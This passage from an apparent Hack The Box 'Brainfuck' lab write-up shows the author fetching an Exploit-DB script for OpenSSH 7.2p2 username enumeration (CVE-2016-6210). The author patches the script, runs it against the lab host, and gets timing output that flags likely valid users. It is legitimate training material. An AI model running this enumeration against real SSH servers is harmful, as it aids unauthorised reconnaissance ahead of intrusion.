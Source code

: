 ```bash
OpenSSHd 7.2p2 - Username Enumeration                                               | linux/remote/40113.txt          
------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/brainfuck]
└─$ searchsploit -m inux/remote/40136.py         
  Exploit: OpenSSH 7.2p2 - Username Enumeration
      URL: https://www.exploit-db.com/exploits/40136
     Path: /usr/share/exploitdb/exploits/linux/remote/40136.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /hackthebox/oscp-prep/brainfuck/40136.py
```

Had to change time.clock() to time.time() so that the script worked. Now, run it:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/brainfuck]                                                                                                                                                                                          
└─$ python3 40136.py brainfuck.htb -U /tools/lists/usernames.txt                                                                                                                                                                             
                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                             
User name enumeration against SSH daemons affected by CVE-2016-6210                                                                                                                                                                          
Created and coded by 0_o (nu11.nu11 [at] yahoo.com), PoC by Eddie Harari                                                                                                                                                                     
                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                             
[*] Testing SSHD at: brainfuck.htb:22, Banner: SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.1                                                                                                                                                       
[*] Getting baseline timing for authenticating non-existing users............                                                                                                                                                                
[*] Baseline mean for host brainfuck.htb is 0.5738499879837036 seconds.                                                                                                                                                                      
[*] Baseline variation for host brainfuck.htb is 0.024055111845642962 seconds.                                                                                                                                                               
[*] Defining timing of x < 0.6460153235206325 as non-existing user.                                                                                                                                                                          
[*] Testing your users...                                                                                                                                                                                                                    
[-] info - timing: 0.5696537494659424                                                                                                                                                                                                        
[-] admin - timing: 0.5848374366760254                                                                                                                                                                                                       
[+] 2000 - timing: 0.7031052112579346                                                                                                                                                                                                        
[+] michael - timing: 0.6474783420562744
```